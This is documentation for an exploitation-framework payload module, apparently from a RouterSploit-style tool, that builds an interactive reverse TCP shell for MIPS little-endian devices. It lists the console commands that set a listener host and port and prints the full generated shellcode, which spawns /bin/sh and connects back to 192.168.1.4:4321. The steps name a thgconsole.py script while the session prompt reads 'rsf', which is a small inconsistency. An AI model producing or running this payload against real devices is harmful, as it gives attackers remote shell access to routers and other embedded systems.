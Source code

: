 ## Description

Module generates payload that creates interactive tcp reverse shell for MIPSLE architecture.

## Verification Steps

  1. Start `./thgconsole.py`
  2. Do: `use payloads/mipsle/reverse_tcp`
  3. Do: `set lhost 192.168.1.4`
  4. Do: `set lport 4321`
  5. Module generates mipsle reverse shell tcp payload

## Scenarios

```
rsf > use payloads/mipsle/reverse_tcp
rsf (MIPSLE Reverse TCP) > set lhost 192.168.1.4
[+] lhost => 192.168.1.4
rsf (MIPSLE Reverse TCP) > set lport 4321
[+] lport => 4321
rsf (MIPSLE Reverse TCP) > run
[*] Running module...
[*] Generating payload
[+] Building payload for python
payload = (
    "\xff\xff\x04\x28\xa6\x0f\x02\x24\x0c\x09\x09\x01\x11\x11\x04"
    "\x28\xa6\x0f\x02\x24\x0c\x09\x09\x01\xfd\xff\x0c\x24\x27\x20"
    "\x80\x01\xa6\x0f\x02\x24\x0c\x09\x09\x01\xfd\xff\x0c\x24\x27"
    "\x20\x80\x01\x27\x28\x80\x01\xff\xff\x06\x28\x57\x10\x02\x24"
    "\x0c\x09\x09\x01\xff\xff\x44\x30\xc9\x0f\x02\x24\x0c\x09\x09"
    "\x01\xc9\x0f\x02\x24\x0c\x09\x09\x01\x10\xe1\x05\x3c\x02\x00"
    "\xa5\x34\xf8\xff\xa5\xaf\x01\x04\x05\x3c\xc0\xa8\xa5\x34\xfc"
    "\xff\xa5\xaf\xf8\xff\xa5\x23\xef\xff\x0c\x24\x27\x30\x80\x01"
    "\x4a\x10\x02\x24\x0c\x09\x09\x01\x62\x69\x08\x3c\x2f\x2f\x08"
    "\x35\xec\xff\xa8\xaf\x73\x68\x08\x3c\x6e\x2f\x08\x35\xf0\xff"
    "\xa8\xaf\xff\xff\x07\x28\xf4\xff\xa7\xaf\xfc\xff\xa7\xaf\xec"
    "\xff\xa4\x23\xec\xff\xa8\x23\xf8\xff\xa8\xaf\xf8\xff\xa5\x23"
    "\xec\xff\xbd\x27\xff\xff\x06\x28\xab\x0f\x02\x24\x0c\x09\x09"
    "\x01"
)
```
